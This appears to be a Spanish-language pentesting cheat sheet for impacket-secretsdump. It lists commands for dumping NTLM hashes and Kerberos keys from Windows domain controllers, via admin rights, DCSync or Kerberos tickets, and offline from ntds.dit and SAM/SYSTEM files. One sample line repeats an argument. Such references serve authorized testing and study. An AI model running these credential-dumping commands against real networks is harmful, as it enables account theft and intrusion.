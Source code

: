 # SecretsDump Cheat Sheet

#### Dump Hashes - cuando tienes un usuario que pertenece al grupo Administrador
```
impacket-secretsdump <DOMAIN>/<USER>:<PASSWORD>@<IP-TARGET>
```

#### Extrar Hashes NTLM y kerberos keys  - cuando se tiene un usuario que pertenece al grupo DCSync (el parametro -just-dc creará 3 archivos: una que contiene los hashs NTLM, una que contiene las teclas Kerberos, y otra que contendría contraseñas de texto claros de la NTDS)
```
impacket-secretsdump -outputfile hashes -just-dc <DOMAIN>/<USER>@<IP>
```

#### Dump Hashes - cuando tienes una cuenta kerberos
```
impacket-secretsdump 'CIFS/<DOMAIN-DC>' -k -no-pass <DOMAIN-CHILD>/<USER> -debug 
```

#### Extrar Hashes NTLM y kerberos keys de un usuario en especifico - cuando se tiene un usuario que pertenece al grupo DCSync
```
impacket-secretsdump -outputfile hashes -just-dc-user <USERNAME-TO-EXTRACT> <DOMAIN>/<USER>@<IP>
```

#### Extraer Hashes de archivos ntds.dit
```
impacket-secretsdump.py -ntds <FILE.dit> -system <FILE-SYSTEM> LOCAL
```

#### Extraer Hashes de SAM & SYSTEM
```
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> LOCAL
ó
impacket-secretsdump.py -sam <FILE-SAM> -system <FILE-SYSTEM> -system <FILE-SYSTEM> LOCAL
```

##### Sincronizar la hora con el DC:
```
timedatectl set-ntp off
ó 
timedatectl set-ntp 0

ntpdate -s <IP>
ó
rdate -n <IP>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)